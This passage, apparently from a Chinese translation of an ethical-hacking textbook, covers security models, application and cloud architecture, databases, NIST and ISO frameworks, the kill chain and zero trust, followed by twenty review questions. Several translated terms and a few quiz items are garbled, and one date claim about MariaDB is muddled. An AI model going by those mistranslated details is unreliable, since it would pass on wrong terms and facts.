Bell–LaPadula 提供了两条强制访问控制规则（简单安全属性和 \* 属性）以及一条离散访问控制规则。强制访问控制由操作系统处理。规则是基于策略创建的，用户无法操纵这些规则。离散访问控制允许用户根据自身需求和掌握的数据，自行设置访问规则。在离散访问控制下，企业无法控制哪些主体被允许访问哪些对象。

### Clark–Wilson Integrity Model

Clark–Wilson 模型是另一个关注完整性而非机密性的模型。这并不意味着它与 Biba 模型相同，即使其最终目的相同。与 Biba 不同，Clark–Wilson 不依赖于状态机，也不只使用主体和对象。Clark–Wilson 引入了程序。与状态机不同，在状态机中主体直接作用于对象，Clark–Wilson 期望主体仅通过程序对数据对象进行操作。此外，Biba 用于保护高分类级别的信息，而 Clark–Wilson 适用于所有数据分类级别。Clark–Wilson 的总体目标是保持数据在从一个状态到另一个状态移动时的数据一致性，即每个事务使得对象处于合理且可用的状态。

与定义状态机不同，Clark–Wilson 定义了数据项，并仅允许通过有限数量已知程序访问这些数据项。基本上，程序处理对象上的事务。该模型依赖于主体、对象和访问程序都已知。如果除了被允许的主体外，其他任何主体试图通过已知程序/事务访问对象，这也是违规的。同样，尝试使用未定义的程序进行事务也会被视为违规。因为这三个元素都是必要的，它们被称为 Clark–Wilson 三元组。

除了三元组，Clark–Wilson 还包括一组规则，这些规则需要一些额外的术语。有约束数据项（CDIs）和未约束数据项（UDIs）。这些由转换程序（TPs）处理，某个状态中数据有效性由完整性验证程序（IVP）检查。Clark–Wilson 规定了九条规则。其中一些是认证规则（CRs），一些是强制规则（ERs）。其中两条规则与数据的外来性和完整性相关，这些是 CRs。

三条规则检查给定 CDI 上 TPs 是否被允许执行，这些是 ERs。另一个 CR 确保整个三元组被允许。此外，还有确保日志记录存在的规则，以及规定新数据进入系统时不需要被约束的规则。最后，还有一条规则确保只有 TP 的认证者才能更改 TP 的资格。

## 应用架构

过去，应用程序运行在单一系统上。这要追溯到大型机时代，当时用户会连接到大型机并在那里运行程序。程序的所有相关内容，包括程序可能需要的任何数据，都存在于单一系统上。该系统上有控制措施，以防止未经授权的访问，尤其是因为系统只有一个入口。随着个人计算机的出现，在它们连接到网络之前，程序运行在单一系统上。数据也与程序和系统一起存储。一旦系统连接到网络，可能性便扩大了。数据可以存储在运行程序的系统之外。此外，用户不需要在运行程序的系统上。一切都可以被分段。

除分段之外，还需要考虑网络地理。曾经，所有内容可能都在一家公司的网络上。但这已不再如此，因为有服务提供商可以提供计算资源。这使得应用架构的可能性变得非常广阔。即使是应用的构建方式也发生了改变。我们不再拥有必然运行应用的系统。云服务提供商 —  — 系统位于服务提供商的 premises 并以虚拟方式消费 —  — 正在改变应用的架构方式。

经典的应用架构是 n‑tier 设计模型。多年来，应用开发人员一直在使用这种设计。然而，这正在改变。面向服务的架构（SOA）将单体设计的概念拆分为独立的服务。这些服务之间相互交互。最终结果相同。不同之处在于数据的处理方式以及应用的构建方式。尤其是结合前文，数据库的考虑因素也在发生变化。

## n‑tier Application Design

n‑tier 设计是一种分层应用模型。在某些情况下，它也被称为模型‑视图‑控制器（MVC）设计，尽管这些多层结构中可能包含其他元素。这些层也被称为表示层、应用层、业务层和数据访问层。下图展示了该设计的示例：Figure 14.2。


Presentation 层（即视图）位于客户端，如图中所示的笔记本电脑。下一层是 Application 层，逻辑在此层实现。可编程功能居住在 Application 层。有时该层会进一步划分为 Application 与 Business Logic 层。


**FIGURE 14.2** Multitier application design

在四层模型中，Application 层与 Business Logic 层被分离，Application 层负责服务控制。简言之，Application 层决定适用哪些规则，并调用相应的业务逻辑规则。业务逻辑规则由业务需求决定，说明应用应如何处理提供的数据。业务逻辑正是应用的核心。其余部分仅负责输入输出的处理。Application 层（或 Application 与 Business Logic 层）相当于 MVC 设计中的控制器层。

应用服务器通常与语言绑定。应用服务器为应用提供向用户提供服务的框架，通常通过超文本传输协议（HTTP）实现。应用服务器甚至可能提供 Web 服务器的框架。Web 请求进入应用服务器，随后根据请求将请求路由到相应的应用代码。Java 是常用的应用服务器语言。此外，.NET 语言（如 Visual Basic 和 C#）也在应用服务器中使用，这些服务器随 Microsoft 的 Internet Information Server（IIS）一起提供。Figure 14.3 展示了在 Windows Server 上添加角色以提供 Web 服务器的过程。Windows Server 2022 已内置 .NET Framework，因此不再需要在 IIS 安装时单独安装它。


**FIGURE 14.3** IIS application server

数据层是 MVC 设计中的模型。它负责数据的组织与连接方式。通常该元素是数据库。关系型数据库常作为 Web 应用的后端。关系型数据库有助于定义数据对象之间的关系，即通过定义这些对象之间的关联来构建数据模型。该定义（即模式）为应用提供了对数据模型的可视化视图。结构化查询语言（SQL）用于创建数据库及其表格，以及插入和检索数据。对数据库的操作通过所谓的查询（SQL 语句）来完成。

关系型数据库采用实体‑关系模型。实体例如表和字段。表是数据库中的组成部分，用于定义一组相关数据。可以把表中的列想象为电子表格的列，这些列描述表的组成部分，而每一行则是表中的数据实例。在关系型数据库中，一个表中的字段可以与另一个表中的字段建立关联。下图展示了一个简易的实体‑关系图，说明了数据库表之间的关联：Figure 14.4。这类图被称为 *entity‑relationship diagram*，用于展示数据库表之间的关系。


**FIGURE 14.4** Entity‑relationship diagram

这些关联能够在不需要单一巨型表且重复数据的情况下，将关联数据保持在一起。例如，在 Figure 14.4 中可以看到有一个定义宠物的表，该表包含唯一标识字段、名称、性别和品种。随后有一个访问表，其中记录访问日期。由于每只宠物会有多次访问，需要一种方式将这两行数据关联起来。可以通过第三张表实现，在该表中加入其他两张表的关键标识字段。该表负责维护这两个数据结构之间的映射。实体‑关系图是一种思维模型，其实现形式即为多层架构中的数据层。

# Service‑Oriented Architecture

面向服务的架构（SOA）对应用的视角与传统方式不同。它不从端到端（用户到数据存储）思考应用，而是关注实现应用所需的各个功能。这些功能可以实现为微服务。应用的架构是这些服务之间的连接，用以实现最终用户或应用消费者所需的全部特性。这些服务通常是抽象的，即作为黑盒工作。使用服务的程序员可能并不了解其内部工作原理，只知道如何以有用的方式消费该服务。

这意味着通信协议已经得到明确定义。它们可能使用远程方法调用（RMI）、远程过程调用（RPC）或表示式状态转移（REST）等协议。这些现有的通信协议使得程序员无需自行创建新协议，即可在服务之间进行通信。服务通过库调用这些协议与其他服务交互，而无需自行实现全新的通信方式。

- 服务导向架构的另一个优势是，一旦你将函数抽象为服务，并允许通信在调用函数所在的进程空间之外发生，你就可以将该服务部署在任何位置。快速网络和快速处理器使这种进一步抽象成为可能。它还可能限制妥协的影响范围。一旦服务被妥协，攻击者仅获得对该内存空间的访问，那里可能什么也没有，甚至整个系统也可能只有短暂且不完整的数据，这取决于服务的实现和整体应用设计。这意味着服务通常会被外部暴露，攻击者可以从一个服务或系统探测到另一个。

Figure 14.5 显示了使用服务导向架构设计的应用示例。图表的最上方是 Web 界面。应用程序不一定需要传统的界面。使用 Web 界面往往与安装本地代码应用程序到系统一样容易，甚至更容易让用户消费 Web 界面，而不是需要在系统上安装本地代码应用程序。

在分割线下方是一组服务，这些服务可以被应用程序的任何组件消费。这些服务可能包括登录服务、用户管理服务、用户个人资料服务、数据建模服务和存储服务。这意味着应用程序本身是高度模块化的，这长期以来一直被认为是软件设计的良好做法。当它以这种模块化和抽象方式设计时，任何一块都可以轻松被拆除并替换。


**FIGURE 14.5** Service‑oriented architecture

服务导向架构的概念已经存在超过十年。其在近年来受到欢迎的原因之一是容器的使用。容器是一种隔离应用程序与其他应用和服务的方式。这种隔离通常通过使用命名空间在内核层面实现。命名空间告诉内核任何应用程序所在的内存空间。内核阻止任何应用程序访问其他应用的内存空间或尝试与另一个命名空间中的应用进行进程间通信。

与完整的操作系统运行在另一个操作系统之上的虚拟机不同，容器使用与主机操作系统相同的内核。这意味着容器内部不运行完整的操作系统。容器中仅存在应用程序以及运行该应用或服务所需的库依赖。这使得容器的开销保持低廉。容器还会拥有独立的网络接口，使其在其他系统看来像是一个独立设备。容器可以运行在虚拟机内部。虽然技术上仍然可以在另一个虚拟机中运行虚拟机，但这会产生多层抽象导致的中断和内存去虚拟化的开销。在现代计算机上，这种开销可能不明显，但仍然存在。

容器与微服务或服务导向架构一起，会改变应用程序的部署模式。不再需要为应用的每个服务单独建立完全不同的系统（虚拟或物理），只需为完整应用的各个服务创建容器即可。容器和微服务还使实现弹性设计变得更加容易，即只有在客户端需要时才启动服务，而不是始终运行。这既降低了客户成本，也保持了应用对客户端的响应性。

### 云端应用程序

本质上，使用云计算提供商就是另一种外包基础设施的方式。这并不意味着云提供商只提供这些。你可以在云提供商处部署传统的多层应用，并且会转移因将网络应用暴露于外部世界而可能带来的风险。这种暴露可能让攻击者访问该应用，然后在企业内部横向移动到其他系统。移动到云端部署可以帮助缓解这种暴露。

更好地利用云端应用模型的方法有很多。例如，Microsoft、Amazon 和 Google 等云提供商允许创建容器来部署应用。这意味着你不必担心如何在自己的环境中部署容器。你的云提供商会为你处理所有基础设施。虽然容器相对简单，但仍需要一些管理。云提供商会负责管理。Figure 14.6 展示了 Amazon Web Services (AWS) 提供的众多服务列表。其中之一是 Elastic Kubernetes Service (EKS)。Kubernetes 是一个编排服务，用于管理虚拟机和容器的集合。

使用云提供商的优势之一是可以利用丰富的安全服务。有日志服务、日志监控服务以及用于创建事件轨迹的服务，这些在应用被妥协时非常有用。事件日志和审计轨迹对于调查入口点和妥协程度至关重要。

此外，像 AWS 这样的提供商会处理所有身份和访问管理，使其比那些没有那么多服务的小型组织更具能力。除了 AWS 原生提供的大量服务外，许多供应商也提供作为 AWS 实例的自有服务。这些服务可能包括统一威胁管理设备、防火墙、入侵检测系统以及其他多种安全设备。这些不是硬件设备，而是运行与硬件设备相同软件的虚拟实例。


**FIGURE 14.6** AWS service offerings

以上内容仍侧重于更传统的应用设计。云服务也可能打开全新的应用构思方式。其中一个想法是完全的“无服务器”。如在 Figure 14.6 中所见，AWS 提供的 Lambda 服务是一个让开发者创建无服务器或无容器函数的服务。如果将多个无服务器函数串联起来，就可以构建一个应用。如果其中某个函数存在漏洞并被 compromises，后端不存在服务器可供利用。Figure 14.7 显示了一个可能的 AWS 架构，其中可能不包含任何服务器或容器。

该架构展示了用户通过 API 网关连接到 Lambda 服务。在后端，有一个 NoSQL 数据库用于应用存储，包括基于用户的状态信息。这是一种简化的设计，实际的云端架构设计可以更为复杂。此外，存储数据的方式也有多种，包括通过虚拟连接在应用网络与客户端网络之间的客户端侧存储，也可以使用云服务提供商的文件存储或数据库。


**图 14.7** AWS 服务器无服务器架构

## 数据库考量因素

数据库几十年来一直是关系型的。用于与关系型数据库交互的语言是 SQL，SQL 于 1970 年代开发。你可能会在运行的常见 SQL（关系型）数据库中看到 Oracle，它长期以来一直是 SQL 数据库的大名鼎鼎的代表。Oracle 还收购了 MySQL，这是一个流行的开源数据库服务器，多年之前。2010 年，MariaDB 从 MySQL 分叉出来，在 Oracle 收购之前。在某些情况下，MariaDB 已经在 Linux 发行版中取代了 MySQL。

Microsoft 的 SQL Server 也是常见的数据库服务器，尤其在已经大量投入 Microsoft 基础设施的组织中。

无论你使用哪种 SQL 服务器，它实际上是一个服务器，意味着它是一个运行的服务，接受连接。连接可以通过本地网络建立，即有一个开放端口监听请求。不同的服务器会使用不同的端口号。例如，MySQL 使用 TCP 端口 3306，而 Microsoft SQL Server 使用端口 1433。MySQL 不通过 UDP 运行，而 Microsoft SQL Server 可以配置为使用 UDP 供客户端连接。

网络上的监听服务存在风险，因为未经授权的客户端可能尝试连接。尤其是在连接必须通过网络（客户端位于与服务器不同的服务器）时，强有力的身份验证凭据至关重要。不过，可以使用命名管道（named pipes）让同一系统上的客户端与服务器通信。命名管道是一种进程间通信方式，不需要为网络连接监听端口。

虽然关系型数据库服务器几十年来一直很常见，但其他数据库系统正逐渐变得更为普遍。其中之一是 NoSQL 数据库。这种数据库通常不使用 SQL 进行程序化访问。除此之外，NoSQL 数据库之间存在巨大差异。一种 NoSQL 数据库类型是键值型（key/value）。你可以把它看作字典或关联数组。这两个术语常出现在像 Python 这样的编程语言中。你可能会在 JavaScript 对象表示法（JSON）中看到这种表示形式。下面展示了如何使用 JSON 来处理一些个人信息，这可能用于存储或至少表示某些 NoSQL 数据。

**JSON 中的个人表示**

``` 
"person": {
    "firstname": "Ric",
    "lastname": "Messier",
    "sex": "Male",
    "age": "old",
    "state": "CO"
}
```

使用 JSON 时，你可以嵌套复杂的数据类型。例如，最顶层的键是 `person`，其值是一个多键值（multikey value），即完整的数据集合。你可以拥有多个 `person` 键，每个键对应不同的值。在传统的关系型数据库中，`person` 下的每个键都会成为列。然后可以有多行，每行的每一列都有值。与关系型数据库不同，键值型数据库不一定受限于单一表，并且可以在不进行复杂的 `JOIN` 查询的情况下使用复杂数据类型。

还有其他 NoSQL 方式来思考或表示数据。你可以采用文档存储方式，存储半结构化数据，数据可以用 JSON 或可扩展标记语言（XML）表示。另一种可能的数据库类型是图数据库，它是高度连接的数据存储，连接以图的形式呈现。例如，Facebook 以使用图数据库而闻名。每种数据库都会影响其使用方式。图数据库在搜索时可以非常快速。

这些都不说明如何与这些数据库进行交互。许多数据库类型都有云提供商（如 AWS 和 Azure）提供的托管服务。你可以在 图 14.8 中看到 Azure 可用的 NoSQL 数据库提供商的部分列表。许多数据库提供商默认不在网络上监听。MongoDB 需要配置为监听网络接口，可能仅为本地接口。了解企业或应用使用的数据库类型可能不足以获得访问权限。


**图 14.8** NoSQL 数据库产品与 Azure

并非所有数据库都由独立的软件组件（如数据库服务器）来管理。在某些情况下，数据库功能被嵌入到使用数据的应用程序中。例如，Firefox 浏览器的所有数据（包括书签和设置）都存储在 SQLite 数据库中。许多其他应用程序，尤其是移动应用，也使用 SQLite 数据库，它们以文件形式存储。应用通过库函数管理这些文件中的数据。由于它是基于 SQL 的关系型数据库，所有程序化访问仍然使用 SQL 查询。检索数据时，程序会生成 `SELECT` 查询；存储数据则使用 `INSERT INTO` 查询。

## 安全架构

组织应考虑采用安全架构。这一术语可能令人困惑。当人们听到 *security architecture* 时，可能会联想到网络设计以及网络中应部署的各种安全元素。这再次是一种防御深度（defense‑in‑depth）的网络设计思路。企业需要采取更广泛的架构视角。安全架构应从组织顶层开始，确定目标和业务 objectives，从而确保组织内的所有安全功能均设计并实现以支持业务目标。架构应识别安全功能的分析、设计、规划和实现过程。

过去，安全更多是一个孤立的职能，独立于其他业务职能。安全组织可能需要自行制定需求，这源于对安全价值和功能的普遍缺乏理解，以及其对整体组织的重要性。在缺乏业务生成目标的情况下，安全组织的目标是从下往上制定的，这意味着技术需求可能优先于其他考虑。随着数据泄露事件日益频繁，企业开始认识到安全不仅是高管层面的职能，也必须由董事会共同承担。

要实现自上而下定义的安全架构，企业应利用已有的业务路线图或长期规划，并结合行业趋势或针对该企业或所在垂直行业的威胁情报。

- 企业最重要的考虑因素是如何处理风险。风险是因利用漏洞而导致的损失或损害的实际化的概率。企业对风险的看法可能因它们如何识别威胁或量化损失或损失的概率而有所不同。总体而言，企业需要管理业务风险，并且企业对其信息资源所关联的风险更加意识。一旦企业掌握了风险识别和管理以及风险管理所需的计划，就能生成安全架构中应包含的要求。

企业应有一套可遵循的方法论，提供额外指导。这可以通过采用框架来实现。国家标准技术研究院（NIST）已制定了网络安全框架，该框架强调企业在实施安全控制时应考虑的阶段。NIST 识别的阶段或类别包括 `identify`、`protect`、`detect`、`respond` 和 `recover`。NIST 将这些称为 *五个功能*，它们是 NIST 网络安全框架的核心。你可以在 Figure 14.9 中看到这五个功能的示意。你会注意到它们呈圆形排列。这是因为每个功能都有输入进入下一个功能。循环永无止境。


**FIGURE 14.9** NIST 的五个功能

由于我们在讨论业务层面的安全，这五个功能指的是对业务的风险。例如，`Identify` 功能涉及识别业务风险、识别资产、识别用于治理的政策以及制定风险管理策略。这些行动应由企业指导，确保安全与业务在目标上的相互理解。所有这些行动都是为后续功能提供必要信息。

`Protect` 功能在没有识别所有业务资产及其对组织重要性的前提下无法执行。`Protect` 不仅仅是确保有控制措施阻止攻击者。该功能是整体保护业务资产，意味着需要能够维护软件或硬件。这包括制定保持所有资产更新的计划。同时，还需要身份和访问管理功能，确保只有授权用户才能访问业务资源。业务资源包括实体资源（如建筑）以及建筑内可能存放关键资产的任何区域，无论是实体的还是信息性的。

我们并不期望防护能够完美。没有办法在保持业务运营的同时完全阻挡 adversaries。因此，必须具备检测能力。检测不仅仅是识别异常和事件，还需要理解这些事件的影响。这也关联到 `Identify` 功能。`Identify` 的一部分应包括对业务资产进行分类和优先级排序，这有助于团队理解影响。如果检测到事件，可根据其真实性、影响以及其他业务决定的因素进行评估和优先级排序。


一旦事件被检测，应进行调查。如果判定为影响有限或无影响，可能仅记录。如果事件可能构成风险（可度量的损失或损害概率），则将其视为事件，触发 `Respond` 功能。`Respond` 功能用于隔离事件并采取缓解措施进行解决。`Respond` 也不仅在发生事件时使用；它需要提前准备。企业必须制定 `Respond` 功能的计划，以应对不同的情境，确保在发生时能够应对。该功能还需要与利益相关者沟通，包括内部利益相关者以及可能的执法部门或其他外部实体。

最后，`Recover` 功能确保恢复正常业务运营，并应包括防止类似事件再次发生的能力。这可能包括开展事后审查，收集经验教训并实施改进措施，以持续提升业务实践。这也是为何五个功能常被描绘成循环。应始终有反馈循环，使一个功能向另一个功能传递信息，从而随时间持续改进。

这些内容可能显得复杂。尤其是在考虑实现覆盖五个功能所需的所有安全控制时。幸运的是，NIST 提供了帮助。NIST 的特刊 800‑53 是联邦政府推荐的安全控制目录，这些控制同样可用于任何组织。它们可用于指导实施安全架构，目标是为业务提供支持和保护。

NIST 并非唯一提供指导的参与者。还有其他组织同样能够帮助创建安全架构。其中一个是国际标准化组织（ISO）。ISO 发布信息安全管理体系指南，称为 ISO 27001（有时称为 ISO/IEC 27001）。它提供了另一种思考信息安全系统实施方式的视角。ISO 27001 的循环比 NIST 的网络安全框架更为简洁，循环包括：`Plan`、`Do`、`Check` 和 `Act`。这些步骤都很直观，唯一需要特别注意的可能是 `Act`，它涉及对 `Check` 阶段产生的结果进行处理，可能包括根据审计结果实施预防或纠正措施。

另一种思考实施信息安全控制的方式是通过攻击生命周期。攻击生命周期被认为是攻击者为了 compromise 你的组织所采取的步骤集合。你可以在 Figure 14.10 中看到攻击生命周期。该概念由 Mandiant 开发，既用于指导其事件响应能力，也用于告知公司攻击者将采取的步骤，帮助组织更好地检测正在发生的情况，从而判断已检测事件的严重程度。初步侦察的事件严重程度远低于数据外泄（任务完成）的事件。


**FIGURE 14.10** 攻击生命周期

计划实施安全架构的企业可以考虑在攻击生命周期的每个阶段实施控制措施。它们希望不仅防止，而且能够检测初步侦察和初步妥协。有些公司在此停止，假设能够防止或捕获所有情况。但攻击生命周期后期的关键行动更为重要，因此必须能够管理后期发生的任何情况。

另一种观察攻击者操作方式的方法是 Lockheed Martin 的网络杀链模型。该模型识别攻击者如何实现其目标，是一个七步过程，由 Lockheed Martin 确定。具体步骤如下：

1. **侦察**：这是攻击者识别可能用于目标的电子邮件地址的阶段。

2. **`Weaponization`:** 在这一阶段会开发负载，包括一个后门，可让攻击者获得访问权限。

3. **`Delivery`:** 负载通过电子邮件、网站、USB 设备或其他机制向目标传递。

4. **`Exploitation`:** 利用目标系统的漏洞执行代码。

5. **`Installation`:** 在目标系统上安装恶意软件。

6. **`Command and Control (C2)`:** 使用命令通道对目标系统进行控制。

7. **`Actions on Objectives`:** 攻击者现在拥有本地访问权限，可以实现其原始目标。

### `Zero-Trust Model`

COVID 疫情可能是许多组织将整体安全架构转向零信任模型的主要动因之一。主要原因是需要考虑企业的不同边界。传统上，企业的边界由入口和出口点定义，并通过防火墙保护。所有资源都保持在企业内部。即使客户在企业外部，也有受保护的方式，如虚拟专用网络（VPN）或虚拟桌面基础设施（VDI），使这些客户看起来像是在网络内部，尽管物理上在外部。边界得以维持，因为所有业务通信都在企业边界内。

现在，知识工作者经常在家工作，这给网络连接以及所使用的 VPN 或 VDI 系统带来压力。与此同时，许多企业正在向更多云基础设施迁移，无论是用于 Office 365 或 G Suite 的消息传递，还是 Workday、SAP 等软件解决方案。这意味着业务数据不再局限于企业的物理环境。Figure 14.11 展示了客户端从家庭位置或他们所在的任何地点连接到多个云基础设施的情形。

企业控制点的位置必须改变。可能不需要所有客户端流量返回企业网络，因为大部分流量实际是直接发往 Microsoft、SAP、Google 或其他提供商。连接可以直接从家庭办公室到这些云基础设施，这仍然可能导致业务资源被 compromise，如果账户被盗用或网络连接未得到其他保护的话。

零信任模型在 NIST 800-207 中有更详细的文档，它识别业务资源和资源的用户，并指定在访问资源时不能以位置作为信任的依据。传统上，位于网络内部的系统被信任，而位于网络外部的系统可能不受信任。在零信任模型中，系统或位置本身不决定资源是否可以访问。例如，设备可以通过提供特定于设备的证书进行身份验证。与其信任系统或位置不同，零信任要求每一次资源访问都必须经过身份验证。


**FIGURE 14.11** Cloud-based business communications

该模型需要强大的身份和访问管理（IAM）系统。这是一个集中控制用户账户并应用必要策略以防止账户被盗的方式。此外，账户还需启用多因素认证（MFA）。MFA 通过要求用户不仅提供用户名和密码，还提供额外因素来防止未授权访问。这个额外因素可能是用户所持有的物理令牌，如 YubiKey，也可能是仅在用户拥有的设备或应用上提供的一次性密码。通常这类一次性密码是通过用户的手机提供，也可能使用专门生成一次性密码的物理令牌。

将客户端移出企业控制范围也会改变保护位置。当客户端全部在企业网络内部时，监测恶意行为更容易，因为企业对所有网络通信基础设施拥有控制并可以进行监控。但当客户端在家庭网络上时，情况就不同了。虽然客户端通常受企业管理，但它们所在的网络并不受企业控制。这迫使监测和其他侦测控制从网络边缘转移到端点上。

虽然端点检测与响应（EDR）应用是常见的解决方案，并且无论端点是在企业网络还是在家中都有用，它们并不是唯一的选择。EDR 解决方案并不能保证无论端点在何处通信，所有通信都受到保护。此外，EDR 可能不了解端点试图通信的系统，包括互联网上的恶意命令与控制（C2）系统。这可能需要额外的控制措施。

最后，移动企业边界之外还需要考虑端点管理。监控、更新和许多其他管理应用通常在本地（on-premise）运行，因此本地管理系统与端点之间的通信必须在零信任模型的框架下考虑，尤其是这些关键任务可能在公共网络上公开进行，而非完全在企业控制之下。

## `Summary`

`Data classification` 是一项必不可少的活动。它帮助识别所有数据资源并确定其敏感度或重要性，这一步是实施安全模型的前提。如果没有了解敏感度或优先级，就无法实施 Biba 模型，因为 Biba 需要知道谁可以读取上层数据以及谁可以写入下层数据。Biba 安全模型关注数据完整性。克拉克-威尔逊（Clark–Wilson）完整性模型也是如此。其他模型，如贝尔-拉帕卢拉（Bell–LaPadula）模型，更关注机密性而非完整性。完整性确保数据不会被未授权用户篡改或损坏；机密性确保数据不会被未授权人员查看。安全模型是实现强制访问控制的必要条件。

`Applications` 是设计出来的，因此它们通常遵循已知的架构或设计模式。单体（stand‑alone）应用没有外部架构，但可能拥有内部架构。由于它们是独立的，不依赖于其他系统或服务。常见的应用架构是 n‑tier（多层）架构，由表示层、应用层、业务层和数据访问层组成。有时应用层和业务层会合并为仅处理应用逻辑的单一层，这构成了三层应用，即 MVC 设计模式的实现。

`Web applications` 通常使用多层架构。浏览器是表示层（视图）。很可能有一个运行 Java、.NET、PHP 或其他语言的应用服务器，负责业务和应用逻辑（控制器）。最后通常有一个数据存储，可能是数据库，属于数据访问层（模型）。

现代应用程序仍然使用多层架构，但也常常被拆分为函数或服务。当以这种方式查看或设计应用程序时，它被称为面向服务的架构（SOA）。这意味着整体应用被拆分为服务，服务之间相互交互。它提供了模块化，使任何服务都可以在保持相同输入/输出规范的前提下被替换为另一个服务，而不需要修改应用程序的其余部分。最近，这种方法被适配为微服务架构。微服务通过使用 Docker 或 Kubernetes 等容器进一步增强。

有时，这些容器是通过云服务提供商实现的。传统的应用程序架构也可以使用云服务提供商来实现，你可能会得到一种混合方式，其中部分应用在本地实现，而其他部分则使用云服务提供商。云服务提供商也开始向应用开发者展示新的应用设计思路，包括服务器无服务器（serverless）函数。这些函数通过串联来构建整体应用，但底层没有可被攻击者获取的服务器。类似地，容器的使用有时会导致自动化基础设施，容器和虚拟机在需求出现时被创建并按需拆除。获得此类环境访问权限的攻击者可能会在系统突然消失（包括攻击者放置的文件）时不得不重新开始。

应用程序通常需要存储数据，数据可能是临时的，也可能是持久的。传统上，应用数据存储在通过 SQL 访问的关系数据库中。现代应用正在摆脱这种做法，转而使用 NoSQL 数据库，这些数据库可能使用半结构化文档或键值对数组。

企业在一般情况下需要考虑安全架构。这与应用程序或网络设计或架构无关，而是一套指导组织整体安全实施的数据和方法论。NIST 建议通过识别、保护、检测、响应和恢复五个功能来指导组织——无论是人员配置，还是评估信息安全以及对业务的潜在风险的方式。

NIST 并非唯一提供安全建议的组织。ISO 27001 是信息安全管理体系的另一套建议。它们推荐计划、执行、检查、改进（Plan, Do, Check, Act）。此外，还有一个攻击生命周期，它识别攻击者为获取关键业务系统或数据而经历的阶段：初步侦察、初步妥协、建立立足点、提升权限、内部侦察、横向移动、保持持久性以及完成任务。

NIST 还提供了零信任实施的指导，这是一种确保所有业务资源均使用更强身份验证的方法。企业通常过度信任其物理控制下的资源。零信任消除了这种做法，并保证所有访问都通过强身份验证、多因素认证来进行。

1. 哪种安全三元组属性与 Biba 安全模型相关？

   1. 保密性  

   2. 完整性  

   3. 可用性  

   4. 以上全部  

2. n‑层应用设计中有多少层？

   1. 两层  

   2. 三层  

   3. 四层  

   4. 取决于应用  

3. JSON 最可能代表哪种数据库类型？

   1. 关系型  

   2. SQL  

   3. 键值对  

   4. 基于文档  

4. NIST 网络安全框架规定了多少功能？

   1. 无  

   2. 三个  

   3. 五个  

   4. 四个  

5. ISO 27001 循环有多少步骤？

   1. 两个  

   2. 三个  

   3. 四个  

   4. 五个  

6. 美国政府使用的最高级别分类是什么？

   1. 绝密  

   2. 机密  

   3. 限制  

   4. 只供目视  

7. 微服务是哪种架构的具体实现？

   1. 服务对象架构  

   2. 微信道架构  

   3. 微服务架构  

   4. 面向服务的架构  

8. 只使用 AWS Lambda 函数的应用被称为什么？

   1. 面向服务  

   2. 虚拟化  

   3. 无服务器  

   4. 基础设施即服务  

9. Clark–Wilson 模型使用什么来指代对象？

   1. UTI 和 CDI  

   2. CDI 和 CTI  

   3. UDI 和 CDI  

   4. UTI 和 UDI  

10. 在不使用虚拟化超级计算机的情况下，哪种应用虚拟化最合适？

    1. 仿真  

    2. AWS  

    3. 伴随虚拟化  

    4. 容器  

11. NIST 网络安全框架中指定的第一个功能是什么？

    1. 识别  

    2. 保护  

    3. 风险管理  

    4. 防御  

12. n‑层应用设计中常见的中间层是什么？

    1. Web 服务器  

    2. 数据库服务器  

    3. 逻辑服务器  

    4. 应用服务器  

13. 可能在 Web 应用中使用的开源关系型数据库服务器是什么？

    1. MongoDB  

    2. MySQL  

    3. SQL  

    4. Oracle  

14. 关于 Bell–LaPadula 简单安全属性，下列哪项是正确的？

    1. 主体不能向上写入对象。  

    2. 主体不能向下写入对象。  

    3. 主体不能向上读取对象。  

    4. 主体不能向下读取对象。  

15. ISO 27001 循环的阶段有哪些？

    1. 计划、识别、执行、检测  

    2. 计划、检测、执行、实施  

    3. 执行、实施、识别、游戏  

    4. 计划、实施、检查、执行  

16. 零信任架构的关键要素是什么？

    1. 云端应用  

    2. 多因素认证  

    3. 虚拟专用网络  

    4. 虚拟桌面接口  

17. 服务器无服务器计算通常使用何种处理方式？

    1. 并行  

    2. 程序化  

    3. 事件驱动  

    4. 功能性  

18. 在零信任模型中实现多因素认证的最佳方式是什么？

    1. 短信  

    2. 推送批准  

    3. 用户名/密码  

    4. 一次性密码（OTP）  

19. 网络杀戮链（Cyber Kill Chain）用于什么？

    1. 识别攻击者  

    2. 定义监控动作  

    3. 描述攻击过程  

    4. 开发命令与控制系统  

20. 如果工作站不直接位于企业网络，在零信任设计中保护工作站的有用软件是什么？

    1. Syslog  

    2. EDR  

    3. SAP  

    4. SCCM  

# Cloud Computing and the Internet of Things

如今，几乎所有业务都在使用某种形式的云服务。这可能只是使用云提供商提供的电子邮件服务，也可能是企业将多个 Web 应用部署到云环境中，采用云原生设计。由于基础设施迁移至云提供商，攻击也随之转向这些环境。云服务提供商还为应用开发提供了许多在传统企业难以实现的功能，因为所需基础设施的投资成本过高。除此之外，还需要具备相应的技能才能实现这些功能，它们并非免费。

云计算为企业提供了一种快速且简便的方式，将其信息技术需求外包。您可以快速且无需额外成本地部署大量基础设施。这为小公司提供了以与大公司相同的系统和服务快速且低廉地开始运营的机会。正是这种优势推动了众多公司向云服务迁移，因此您必须了解不同类型的云服务以及它们的使用方式。

云服务提供商也在引入支持面向消费者、网络连接、嵌入式设备的功能。这些设备如今遍布各行各业，统称为物联网（IoT）。消费者和企业的网络中可能有大量此类设备实例。如果这些设备被入侵，它们可能被用来构建大规模的僵尸网络。这些设备常常与云服务提供商通信，这为攻击设备本身提供了途径。从伦理黑客的角度来看，了解这些设备、它们的通信方式以及底层操作系统至关重要。

## Cloud Computing Overview

本质上，云计算是一种外包形式，这种外包自至少上世纪 60 年代就已存在。当时，您会外包给一家能够负担数百万美元购买主 frame 计算机的服务公司。该计算机系统占据整个房间，并分为若干台机柜。Figure 15.1 展示了 IBM 360 的一部分，这是一款在上世纪 60 年代和 70 年代流行的主 frame 计算机。


**FIGURE 15.1** IBM System/360 mainframe ¶ Source: Erik Pitti / Wikimedia Commons / CC BY 2.0.

您会先从那些因需求而购买了过多算力的公司开始，并决定将其出售。正如数十年前创立服务分部的公司一样，那些在非高峰期需要大量计算资源的公司也可以向他人出售这些资源。一个巨大的区别 —  — 而且这点无法被高估 —  — 是成本，这使得个人能够使用这些服务，而传统的服务公司通常只向企业提供服务，因为个人通常不需要所提供的那类计算服务，且价格昂贵。

